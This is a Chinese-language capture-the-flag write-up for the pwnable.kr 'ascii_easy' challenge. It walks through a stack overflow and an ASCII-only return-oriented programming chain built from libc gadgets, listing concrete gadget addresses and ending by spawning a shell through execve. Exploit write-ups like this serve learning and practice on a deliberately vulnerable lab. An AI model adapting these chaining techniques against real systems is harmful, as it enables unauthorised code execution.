


Pwnable.kr ascii_easy
直接 ida 中查看源码，vuln 中存在 bof:

源码很简单，总结一下：
- 开了
nx mmap在0x5555e000分配了一块内存，加载libc-2.15.so，有全部权限（可执行）- 输入只能是
32~127的ascii - 栈溢出没有长度限制
首先，拿到题目时，觉得应该看一下 libc 中哪些函数可以使用，简单的写了一个筛选的脚本：
1 | objdump -T libc-2.15.so > symbols |
简单的看了一下 /bin/sh、execv、system：

/bin/sh 、system 不能直接使用 ascii 输入， execv 可以 …
这时，发现题目有提示：
1 | hint : you don't necessarily have to jump at the beggining of a function. try to land anyware. |
i.e. 我们可以直接使用 ROP ，通过加加减减之类的让 /bin/sh 、system 这些函数的地址出现；于是，我选择了 /bin/sh 和 execv。
现在要构造 ROP chain，用 ROPgadget 和上面的那个脚本（稍微改改…）
1 | ROPgadget --binary libc-2.15.so > gadgets |
手动构造 ROP Chain（刺激）
1 | from pwn import * |
主要流程就是：
- ‘a’*0x1c：填充缓冲区
- ‘bbbb’：old_ebp
- p32(0x5557506b)：第一个
gadget，主要目的控制eax和esi，之后用add eax, esi构造出/bin/sh的地址 - p32(0x2b366074)：
pop eax，手动构造的第一个数据（可以随便选） - ‘ebx ‘ ：
pop ebx - p32(0x2a35577e)：
pop esi，手动构造的第二个数据 - ‘edi ‘：
pop edi - p32(0x5557506d)：第六个
gadget，pop ebp为后面的pushal后的ret服务 - p32(0x555f3237)：第二个
gadget，主要使用add - ‘ebx ‘：
pop ebx - ‘esi ‘：
pop esi - p32(0x5557506f)：第五个
gadget，pop1 p32(0x556d2a51)：第三个
gadget，控制ecx，此时/bin/sh的地址也构建成功（0x2b366074 + 0x2a35577e - 0x10 + 0xa）p32(execv)：主要是根据
pushal之后的栈布局，决定把execv的地址传给ecxp32(0x5563704c)：第四个
gadget，pushal指令执行的地址变化：
0x5557506b=>0x555f3237=>0x556d2a51=>0x5563704c=>0x5557506f=>0x5557506d
结果发现不行，调试时发现程序又 push 了 ebx，于是查看一下代码：

并没有直接 sub xxx。后来查了一下，发现只有 execve 是内核级系统调用，剩下的几个 exec 都只是通过调用 execve 实现的。
于是，想要通过查找 sub | add ecx 来修改 ecx 的值，结果并没有找到。后来发现自己的之前的栈构造错了，并没有留 execv 的返回地址 …… 我还在想我太菜了。突然想起，直接找个 call execve 不就行了嘛，连栈布局都不用改。成功找到一个：

红框的就可以用。修改后的 payload：
1 | from pwn import * |
输出都是 ascii ，直接把 payload 复制一下，特殊字符加个转义符号就行：

nice~ :）
参阅

...
...